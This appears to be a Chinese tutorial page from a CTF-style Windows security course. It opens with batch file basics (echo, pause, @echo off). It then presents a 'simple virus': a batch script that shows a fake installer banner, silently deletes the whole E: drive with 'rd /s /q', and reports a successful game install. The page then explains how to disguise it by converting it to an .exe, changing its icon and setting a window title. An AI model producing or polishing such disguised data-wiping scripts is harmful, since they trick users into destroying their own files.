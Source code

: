 ## 批处理文件
打开记事本在里面写多行命令，例如：
```
E:
echo 姓名：Xiaoxiao >> 1.txt
echo 性别：女 >> 1.txt
echo 年龄：19 >> 1.txt
echo 身高：168 >> 1.txt
echo 体重：58kg >> 1.txt
```

> 自上而下成批地处理文件中的每一条命令，直到执行完最后一条为止。把文件扩展名改为：`.bat` ,再双击执行文件

**写有命令的批处理文件也可称为脚本，带有攻击性或破坏性的脚本，即恶意脚本。**

11. `Pause` 暂停
> 在批处理文件执行过程中，进行暂停。当用户按下任意键之后，再执行后面的命令

12. `@echo off` 关闭回显功能，也就是屏蔽过程，建议放置在批处理文件的首行。可在后面添加自己写的提示文字
例如：	
```
@echo off	
echo =================================
echo	欢迎使用 XXX 在线安装程序 v.10	
echo =================================
```

![image](https://github.com/AlphaXiao/CTF-Windows-Security/blob/main/Days/pictures/%E5%9B%BE%E7%89%8762.png)

![image](https://github.com/AlphaXiao/CTF-Windows-Security/blob/main/Days/pictures/%E5%9B%BE%E7%89%8763.png)

## 简单的病毒:把 e 盘下面的东西删除光
```
@echo off
color 0A
echo =================================
echo	欢迎使用 XXX 在线安装程序 v.10
echo =================================
e:
cd \
echo 程序即将执行

pause
rd .\ /s /q >nul 2>nul
echo 恭喜您，游戏安装完毕，谢谢使用pause

```

## 把病毒做的更完美一些：	
1. 下载一个 Bat to Exe 的软件，在软件中可以把图标和后缀都给改了	
2. 图标制作可以去网上搜ico 图标	
3. 注意如果是在自己本机上写好脚本，发送到虚拟机上，本机为 win10 或更高版本，本机是 64 位，虚拟机2003 server 是 32 位，有可能脚本执行不了，需要把软件和生成图标都放到虚拟机里操作去完成这个实验
4. 病毒做完之后，窗口标题显示还是会露马脚，所以引入 title
